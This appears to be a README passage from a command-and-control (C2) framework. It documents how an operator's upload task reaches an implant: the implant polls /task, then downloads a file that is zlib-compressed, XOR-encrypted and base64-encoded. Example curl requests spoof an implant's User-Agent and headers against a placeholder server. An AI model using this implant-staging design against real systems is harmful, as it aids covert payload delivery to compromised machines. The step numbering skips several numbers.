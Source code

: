 Explained Flow:
In this process both servers are involved:
 - Admin Server (admin_server_init.py): Handles Operator Dashboard communication
 - Implant Server (implants_server_init.py): Handles implants encrypted communication
 - Both interact with Database
 - You can read more about this in:
      - src/servers/admin_api/admin_server_init.py
      - src/servers/implants_api/implants_server_init.py
      - src/config/db.py

1.  When an upload command is queued through the Operator Dashboard, the following process takes place:

  - The **Admin Server** receive the file and generates a unique MD5 HASH ID to identify it
  - The server stores the file information in the database with:
    - File ID (md5 hash)
    - Original filename
    - Full file path

3. The Implant receives the `upload` command with the file FILE HASH ID vía Implant Server `/task` polling
4. The Implant requests the file from the **Implant Server** using the FILE HASH ID `/task/<file_hash_id>`
5. The **Implant Server**:
   - Verifies the file exists in the database (using db.py)
   - Reads the file content
   - Compresses the content using zlib
   - Encrypts the compressed data using UNIQUE_XOR_KEY
   - Base64 encodes the encrypted data
   - Sends the data with headers:
     - `Content-Type: application/x-gzip`
     - `X-Original-Filename: <base64_encrypted_filename>` (filename is encrypted using UNIQUE_XOR_KEY)
7. The Implant: (in upload.nim)
   - Receives the base64 encoded data
   - Decodes from base64
   - Decrypts using UNIQUE_XOR_KEY
   - Decompresses using zlib
   - Receives the decode and decrypt filename from X-Original-Filename header
   - Decrypts the filename using its UNIQUE_XOR_KEY
   - Saves the file with the decrypted original filename (filename can includes a path + filename)

**Security Note**: The filename is encrypted using the UNIQUE_XOR_KEY and base64 encoded as the file content, ensuring that both the file content and its name are protected during transmission. This add a OPSEC to the process (Not a big thing but it's better than send raw filename).

**Example CURL**:
```bash
# Get pending tasks
curl -X GET "http://server:port/task" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" 
  
# Download file
curl -X GET "http://server:port/task/<file_hash_id>" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" \
  -H "Content-MD5: <task_guid>"
```
---------------------------------------------------------------------------------------------
